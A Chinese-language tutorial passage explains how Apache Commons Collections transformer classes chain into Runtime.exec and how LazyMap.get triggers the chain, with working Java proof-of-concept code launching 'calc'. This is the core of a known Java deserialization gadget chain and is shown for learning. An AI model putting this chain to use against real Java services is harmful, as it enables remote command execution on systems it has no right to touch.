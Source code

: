 ##### 如何利用Commons Collections中的相关类来实现代码呢？

`Runtime.getRuntime().exec("calc")`

```java
Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer ct = new ChainedTransformer(transformers);
ct.transform("2");  //调启
```

上述代码是利用`Commons Collections` 类库中 **ConstantTransformer 类**、**InvokerTransformer 类**、**ChainedTransformer类**、**Transformer[] 数组**等方式来组合实现的。

- `ConstantTransformer` 类： `ConstantTransformer` 是 `Transformer` 的一个实现，**它始终返回一个指定的常量值**。(接什么返什么)

- `InvokerTransformer`类：定义: `InvokerTransformer` 是 Transformer 的另一种实现，**它用于调用某个对象的方法**。

  构造函数: 需要三个参数：方法名，方法参数类型的数组，要传递给方法的参数的数组

- `Transformer[]` 数组：定义: `Transformer[]` 是一个 `Transformer` 类型的数组。

  用途: **用于将多个变换器组合在一起**，以便按顺序执行一系列转换操作。

  在你的代码中，这个数组包含了多个变换器，每个变换器负责一个具体的操作。

- `ChainedTransformer`：能够**将多个变换器串联起来**，使得输入经过一系列的处理后，可以最终执行出一些操作。

经过源码分析后发现，`ct.transform("2")` 代码执行之后开始做起调，在方法中实际做的事情就是**遍历和调用各个元素的transform()方法**。

##### 那么谁又会调用同样的方法呢？

通过寻找源代码发现，在`LazyMap`的`get()`方法中正好也调用了`transform()`方法。那么代码就可以变换成如下方式：

![image-20241029105345280](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029105345280.png)

![image-20241029105352817](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029105352817.png)

​    

```java
 Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
        ChainedTransformer ct = new ChainedTransformer(transformers);
        Map decorate = LazyMap.decorate(new HashMap(), ct); //通过decorate传值，生成一个LazyMap对象
        decorate.get("1"); //调启
```
